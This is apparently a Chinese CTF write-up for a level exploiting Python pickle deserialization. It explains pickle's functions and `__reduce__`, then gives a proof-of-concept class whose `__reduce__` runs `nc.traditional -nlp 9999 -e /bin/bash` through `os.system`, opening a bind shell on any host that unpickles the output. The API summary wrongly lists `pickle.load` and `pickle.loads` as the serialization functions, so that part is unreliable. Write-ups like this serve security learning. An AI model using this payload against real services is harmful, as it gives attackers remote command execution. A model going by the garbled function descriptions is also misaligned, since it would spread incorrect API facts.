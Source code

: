 ``` python
      exit(1)
```

### python的pickle库反序列化漏洞

此题是python的pickle序列化库的特性，它可能会导致反序列化漏洞。

pickle库能序列化大多数对象，包括用户自定义的类。它的序列化函数有两个：

- `pickle.load(obj, file, protocol=None, *, fix_imports=True)`：该方法将obj对象序列化为字节（bytes）输出到file文件中。
- `pickle.loads(obj, protocol=None, *, fix_imports=True)`：该方法将obj对象序列化并返回一个bytes对象。

反序列化函数对应也有两个：

- `pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict")`：从一个对象文件中读取序列化数据，将其反序列化之后返回一个对象。 
- `pickle.loads(bytes_object, *, fix_imports=True, encoding="ASCII", errors="strict")`：将一个bytes对象反序列化并返回一个对象。

对于一个类来说，其`__reduce__()`方法在反序列化时是会被执行的，这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。

### payload

所以我们就可以利用`__reduce__()`方法来get shell。编写python脚本：

``` python
#!/usr/bin/python
#coding=utf-8

import pickle
import os

class poc(object):
	def __reduce__(self):
		s = "nc.traditional -nlp 9999 -e /bin/bash"
		#s = 'echo abcdefg'
		return os.system, (s,)

e = poc()
s = pickle.dumps(e)
print s
```

运行然后连接nc端口：

![Level17](level17_1.png)

